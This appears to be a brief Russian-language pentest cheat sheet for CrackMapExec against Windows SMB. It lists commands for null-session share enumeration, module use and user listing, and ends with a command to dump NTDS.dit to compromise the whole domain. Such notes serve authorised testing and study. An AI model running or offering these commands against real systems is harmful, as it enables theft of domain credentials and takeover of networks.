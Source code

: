 Утилита, позволяющая выполнить проверку на доступность подключения к пользователям на windows машине.
## SMB
Прочитать доступные службы:
```
crackmapexec smb {IP} -u '' -p '' --shares
```
`-u` - username
`-p` - password
`-L` - посмотреть доступные модули
`-M {name}` - включить модуль
>вывод попадает в /tmp/{module name}/{IP}.json
>spider_plus - лист файлов и директорий

`--share {name}` - узнать конкретную службу, например DOCS
`--users` -  перечислить домены с юзерами
### Завершение атаки, дамб NTDS
Дамп NTDS.dit, тем самым полностью скомпрометировать домен:
```
crackmapexec smb {IP} -u {User} -p {pass} --ntds 
```